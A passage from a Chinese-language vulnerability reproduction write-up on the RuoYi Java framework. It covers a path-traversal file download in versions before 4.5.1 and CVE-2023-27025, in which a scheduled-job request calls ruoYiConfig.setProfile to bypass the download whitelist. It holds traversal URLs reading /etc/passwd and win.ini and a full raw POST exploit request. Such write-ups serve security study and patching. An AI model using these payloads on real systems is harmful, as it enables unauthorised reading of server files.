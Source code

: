 RuoYi<4.5.1  
#### 漏洞复现  
  
用4.5.0版本  
  
直接搜索关键字，download找到具体的controller  
  
路径  
```
/common/download/resource
```  
```
/common/download/resource?resource=/profile/../../../../etc/passwd/common/download/resource?resource=/profile/../../../../Windows/win.ini
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraammicD1Y1e0tk3TLsl5DW7ibnlra6icDlbORyCDgqlDg2lte2SppwyaoCyw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
# 0x05 CVE-2023-27025 若依任意文件下载  
## 漏洞简介  
  
该漏洞是若依（RuoYi）4.7.6 版本中存在的 **权限绕过 + 任意文件下载**  
 组合漏洞。攻击者通过后台管理接口添加恶意定时任务，修改系统配置文件路径，绕过下载功能的白名单限制，最终实现任意文件下载。漏洞本质是 **权限控制缺失**  
（允许低权限用户操作敏感接口）和 **路径校验不严**  
（未对动态修改的配置路径进行二次校验）的综合结果。  
## 影响版本  
- **若依（RuoYi）<= 4.7.6**  
## 利用条件  
1. **权限要求**  
：  
  
1. 攻击者需获取管理员 Cookie（如 JSESSIONID  
）或存在其他权限绕过漏洞。  
  
1. 若后台接口未授权即可访问，则漏洞危害升级为“未授权任意文件下载”。  
  
1. **系统配置**  
：  
  
1. 目标系统启用了定时任务模块（默认开启）。  
  
## 漏洞复现  
#### 添加任务绕过白名单（自定义下载文件路径）  
```
POST /monitor/job/add HTTP/1.1Host: 10.40.107.67Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1bUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Content-type: application/x-www-form-urlencodedContent-Length: 214Connection: closecreateBy=admin&jobId=161&jobName=test111&jobGroup=DEFAULT&invokeTarget=ruoYiConfig.setProfile('/Users/apple/Desktop/Locks/javafx.txt')&cronExpression=0%2F10+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```  
- 通过调用 ruoYiConfig.setProfile()  
 方法，将系统配置文件路径动态修改为攻击者指定的路径（如 /Users/apple/Desktop/Locks/javafx.txt  
）。  
  